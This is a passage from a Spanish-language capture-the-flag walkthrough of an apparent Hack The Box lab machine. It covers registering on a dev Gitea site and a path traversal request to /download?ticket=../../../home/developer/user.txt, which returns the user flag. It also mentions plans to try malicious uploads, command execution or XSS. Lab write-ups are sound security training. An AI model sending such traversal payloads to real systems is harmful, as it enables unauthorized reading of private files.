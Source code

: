 Resultado:

```json 
{"name": "Rose DeWitt Bukater", "email": "rose.bukater@titanic.htb", "phone": "643-999-021", "date": "2024-08-22", "cabin": "Suite"}
```

Explicación: hemos encontrado tickets válidos que podemos probar en la url que intentabamos al principio y acceder de esta forma como usuarios


## Paso 13 - 

Acción: nos registramos en esta ruta y tenemos capacidad de logearnos

```url
http://dev.titanic.htb/user/sign_up 
```

Resultado: ganamos acceso a un docker de gitea (similar a GitHub)

```url
http://dev.titanic.htb/developer/docker-config/src/branch/main/gitea/docker-compose.yml
```

Explicación: tras ganar acceso como usuario a esta página ahora podemos probar a subir archivos maliciosos o ejecutar comandos o probar XSS


## Paso 14 - 

Acción: 

```xml 
GET /download?ticket=../../../home/developer/user.txt
```

Resultado: 

```xml  
HTTP/1.1 200 OK

Date: Thu, 24 Apr 2025 17:42:20 GMT

Server: Werkzeug/3.0.3 Python/3.10.12

Content-Disposition: attachment; filename="../../../home/developer/user.txt"

Content-Type: text/plain; charset=utf-8

Content-Length: 33

Last-Modified: Thu, 24 Apr 2025 15:50:17 GMT

Cache-Control: no-cache

ETag: "1745509817.344741-33-2595819779"

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive



f5abad40adc0e95946311...
```
